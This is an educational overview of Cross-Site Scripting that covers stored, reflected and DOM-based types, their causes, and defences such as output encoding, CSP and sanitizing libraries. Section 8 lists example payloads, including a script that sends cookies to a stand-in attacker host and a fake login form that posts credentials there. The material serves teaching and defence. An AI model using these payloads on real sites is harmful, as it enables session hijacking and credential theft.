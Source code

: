 Cross-Site Scripting (XSS) is a critical web security vulnerability that allows attackers to inject malicious scripts into webpages viewed by other users. Here’s a comprehensive exploration of XSS, including its types, causes, impacts, prevention, and mitigation techniques.

### **1. Overview**

- **Definition**: XSS is a vulnerability that enables attackers to inject malicious code (typically JavaScript) into web pages viewed by other users, leading to unauthorized actions or information theft.
- **Categories**: XSS attacks are categorized based on how the malicious script is injected and executed.

### **2. Types of XSS**

#### **2.1 Stored XSS (Persistent XSS)**

- **Description**: Malicious script is stored on the server (e.g., in a database) and executed when the stored data is retrieved and displayed to users.
- **Example**: An attacker posts a comment with a malicious script on a forum. When other users view the comment, the script executes in their browsers.
- **Impact**: Can be used to steal cookies, session tokens, or other sensitive information from all users who view the affected content.

#### **2.2 Reflected XSS (Non-Persistent XSS)**

- **Description**: Malicious script is embedded in a URL or request and executed immediately when the server reflects it back in the response.
- **Example**: An attacker crafts a URL with a malicious script and tricks users into clicking it. The script executes in the context of the user’s session.
- **Impact**: Often used in phishing attacks or to exploit vulnerabilities in web applications.

#### **2.3 DOM-Based XSS**

- **Description**: Malicious script is injected into the DOM (Document Object Model) of the page and executed by client-side JavaScript. The script does not necessarily reach the server.
- **Example**: An attacker manipulates the URL hash or query parameters, and client-side JavaScript on the page executes the injected code.
- **Impact**: Can lead to unauthorized actions or data leakage depending on how the script manipulates the page.

### **3. How XSS Works**

1. **Injection**: Attacker injects a script into the application through various means (form inputs, URL parameters, etc.).
2. **Execution**: The injected script is rendered or executed by the browser.
3. **Payload**: The script performs malicious actions, such as stealing cookies, capturing keystrokes, or redirecting users.

### **4. Causes of XSS**

- **Unvalidated Input**: Failure to validate and sanitize user input before processing or displaying it.
- **Improper Output Encoding**: Data is not properly encoded before being inserted into HTML, JavaScript, or other contexts.
- **Insecure Dynamic Content**: Using unsafe methods to dynamically generate content or URLs.
- **Inadequate Contextual Escaping**: Not escaping data according to the specific context (HTML, JavaScript, URL, etc.) in which it is being inserted.

### **5. Impacts of XSS**

- **Data Theft**: Stealing sensitive data such as session cookies, login credentials, or personal information.
- **Account Hijacking**: Using stolen cookies or tokens to impersonate users and access their accounts.
- **Phishing**: Redirecting users to malicious sites or displaying fake login forms to capture credentials.
- **Malware Distribution**: Delivering and executing malicious payloads on the client’s machine.

### **6. Prevention and Mitigation**

#### **6.1 Input Validation**

- **Server-Side Validation**: Validate and sanitize user input on the server before processing.
- **Client-Side Validation**: Use client-side validation as an additional measure but not as a primary defense.

#### **6.2 Output Encoding**

- **HTML Encoding**: Encode user input before inserting it into HTML contexts to prevent interpretation as code.
    - Example: Convert `<` to `&lt;` and `>` to `&gt;`.
- **JavaScript Encoding**: Encode data when inserting it into JavaScript code.
    - Example: Convert quotes to their respective escape sequences.
- **URL Encoding**: Encode data when including it in URLs.
    - Example: Convert spaces to `%20`.

#### **6.3 Content Security Policy (CSP)**

- **Description**: A security feature that helps prevent XSS by specifying which sources of content are allowed to be loaded.
- **Implementation**: Define a CSP header that restricts the sources of scripts and other resources.
    - Example: `Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com;`

#### **6.4 Secure Development Practices**

- **Avoid Inline Scripts**: Minimize or avoid using inline JavaScript and event handlers (e.g., `onclick`) in HTML.
- **Use Frameworks**: Use modern frameworks and libraries that automatically handle escaping and sanitization (e.g., React, Angular).

#### **6.5 Escaping and Sanitizing**

- **Use Libraries**: Leverage libraries designed for safe escaping and sanitizing user input.
    - Example: DOMPurify for sanitizing HTML.

### **7. Testing for XSS**

- **Manual Testing**: Test inputs and URLs manually for XSS vulnerabilities by injecting common payloads.
- **Automated Tools**: Use automated scanners and security tools to identify XSS vulnerabilities.
    - Example: OWASP ZAP, Burp Suite.

### **8. XSS Payload Examples**

- **Basic Payload**: `<script>alert('XSS')</script>`
- **Cookie Theft**: `<script>fetch('http://attacker.com?cookie=' + document.cookie)</script>`
- **Phishing Form**: `<form action="http://attacker.com" method="POST"><input name="username"><input name="password"><input type="submit"></form>`

### **9. Case Studies and Real-World Examples**

- **MySpace Worm (2005)**: One of the first significant XSS-based worms, which exploited XSS vulnerabilities to spread across user profiles.
- **Yahoo! (2014)**: A significant XSS vulnerability that allowed attackers to steal session cookies and access sensitive user data.

### **10. Summary**

XSS is a pervasive vulnerability that can have severe consequences for web applications and users. Understanding its types, causes, and mitigation strategies is crucial for developing secure web applications. Implementing robust input validation, output encoding, and using security features like CSP are essential practices for defending against XSS attacks. Regular security testing and adopting secure coding practices further enhance protection against this vulnerability.
